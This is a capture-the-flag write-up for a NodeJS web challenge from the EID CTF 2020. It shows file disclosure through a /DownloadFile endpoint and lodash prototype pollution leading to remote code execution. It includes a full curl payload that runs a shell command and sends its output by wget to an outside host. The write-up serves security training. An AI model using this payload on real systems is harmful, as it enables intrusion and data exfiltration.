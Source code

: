 # EID-CTF


I wrote this challenge for the EID CTF in Dubai 2020. 

## Write-up


By inspecting the HTTP responses, we figure out that the application is written in NodeJs.


![Application](http://snappyimages.nextwavesrl.netdna-cdn.com/img/4f786f0c3099ae9aad02921d1aab97b9.png)

Next By inspecting the comments we see the below comments:

> Ziko: I could not push the code to the CI/CD pipeline, so NexusIQ was not executed on this project. Would you please check it for me ? the endpoint for getting files is: /DownloadFile/${file}

We can then figure out that there is a download function that takes the file name and download the file. knowing that the application is written in NodeJS, we can assume that the file 'package.json'.

by going to the following link:

> http://localhost:3000/DownloadFile/package.json

We can simply download the 'package.json' file and then read all of the dependencies.

On the line number: 7. we can spot that the main file used in the application is called 'index.js'

By making use of the same 'DownloadFile' link to download the source code of the application:

> http://localhost:3000/DownloadFile/index.js

![sourcecode](http://snappyimages.nextwavesrl.netdna-cdn.com/img/4982e1c2fc989d1e2ed6017190ff8c9d.png)


By searching around you can find that the application is making use of a vulnerable version of 'lodash' library which is vulnerable to prototype pollution and leads to RCE due to the usage of 'template'.

> https://github.com/lodash/lodash/pull/4518

The full payload that can leads to RCE
> curl -D- localhost:3000/pipeline -H 'Content-Type: application/json' -d $'{"constructor": {"prototype": {"sourceURL": "\u2028\u2029global.process.mainModule.require(\'child_process\').exec(\'wget http://sherif.ninja:8080/$(ls)\')"}}}'

On the other hand on the webserver runnning by the player they can receive the output of the command 'ls'
on the http logs

![flag-file](http://snappyimages.nextwavesrl.netdna-cdn.com/img/98d108a92b9e49d3934f80a186abe1d4.png)

by making use of the 'DownloadFile' function, we can simply read the flag by the following link:

http://localhost:3000/DownloadFile/cfl4g_n7w_z3ama_file_downloaded
